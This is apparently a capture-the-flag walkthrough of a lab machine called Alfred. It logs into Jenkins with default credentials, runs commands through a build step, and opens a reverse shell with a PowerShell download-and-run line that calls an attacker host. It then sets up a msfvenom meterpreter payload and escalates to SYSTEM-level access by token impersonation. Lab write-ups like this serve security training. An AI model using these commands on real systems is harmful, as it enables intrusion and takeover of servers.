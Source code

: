 # Scanning

Let's begin scanning the target using Rustscan.

```
rustscan -a 10.10.174.157 -r 1-65535 --ulimit 5000 -- -sVC
```
<img src="images/05.Alfred/01.png">

From the port scan, we can see that there are three open ports. Let's look what's running on that ports.

# Enumeration

There is nothing interesting on port 80. But on port 8080, there is Jenkins running. All we can see is a login page. Let's try to use the default usernames:passwords, and then we will use automated tools to brute force the login page.

<img src="images/05.Alfred/02.png">

On using admin as username and admin as password, we are able to successfully login into the Jenkins server.

<img src="images/05.Alfred/03.png">

We can see a project that was already created. On clicking, it takes us to the following page.

<img src="images/05.Alfred/04.png">

The configure button on the left side leads to a page where we can execute Windows batch commands under the build section.

<img src="images/05.Alfred/05.png">

Let us try to see if it is working. We will now change the command to ipconfig and see if it works.

<img src="images/05.Alfred/06.png">

Save it and build. 

After building, we will check the build history.

<img src="images/05.Alfred/07.png">

Under console output, we can see that there is output for the command we used earlier.

<img src="images/05.Alfred/08.png">

<img src="images/05.Alfred/09.png">

# Exploitation
We will download [Nishang](https://github.com/samratashok/nishang) into our machine and use the [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 "Invoke-PowerShellTcp.ps1") to get the reverse shell.
```
git clone https://github.com/samratashok/nishang.git
```
```
cd nishang
```
Start the python webserver to host the file so that we can download it to the target machine. 
```
python -m http.server
```
<img src="images/04.Alfred/10.png">

Now copy the following command into the build section where we can execute commands. This command downloads the powershell script from our webserver and runs it on the target machine using the ip address and port that we specify as arguments. We will be using our machine ip address and the port that we want to use for the reverse shell.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.29.149:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.29.149 -Port 3333
```
<img src="images/04.Alfred/11.png">

Save the changes and apply.

In a new terminal window, use netcat to listen on port 3333.

```
nc -lnvp 3333
```
<img src="images/05.Alfred/12.png">

Now build the project.

<img src="images/05.Alfred/13.png">

And we get a reverse shell!

<img src="images/05.Alfred/14.png">

<img src="images/05.Alfred/15.png">

Now we will elevate our shell to a meterpreter reverse shell.

We will generate a payload that we can run on the target machine and get a reverse shell in meterpreter.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.29.149 LPORT=4444 -f exe -o shell.exe
```
<img src="images/05.Alfred/16.png">

Launch metasploit. Use multi/handler with the meterpreter payload set. 

```
msfconsole -q
```
```
use multi/handler
```
```
set payload windows/meterpreter/reverse_tcp
```
```
set lhost tun0
```
```
set lport 4444
```
```
run
```
Again start the python http server and download the generated payload to the target machine and run it.

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.6.29.149:8000/shell.exe','shell.exe')"
```
```
Start-Process "shell.exe"
```
<img src="images/05.Alfred/17.png">

Go back to metasploit and we get a meterpreter session opened.

<img src="images/05.Alfred/18.png">

# Privilege Escalation

Let's check the privileges for the user that we are currenlty logged in.

```
whoami /priv
```
We can see that the SeImpersonatePrivilege is enabled. Let's try token impersonation.

<img src="images/05.Alfred/19.png">

Load the incognito module and list the available tokens.
```
load incognito
```
```
list_tokens -g
```
<img src="images/05.Alfred/20.png">

<img src="images/05.Alfred/21.png">

We can see that there is BUILTIN\Administrators token available. Let's impersonate that token.
```
impersonate_token "BUILTIN\Administrators"
```
Now we will check if we got the privileged access.
```
getuid
```
<img src="images/05.Alfred/22.png">

We can see that we have higher privileged token but we will not get permissions of privileged user unless we migrate our process to another process with correct privileges . We will migrate our process from shell.exe to services.exe so that we can get the permissions of a privileged user.

We will check the processes and then migrate from shell.exe to services.exe.
```
ps
```
<img src="images/05.Alfred/23.png">

Use the PID of the services.exe to migrate.
```
migrate 668
```
<img src="images/05.Alfred/24.png">

Now have privileged access and we can read the root flag located at C:\Windows\System32\config.

<img src="images/05.Alfred/25.png">

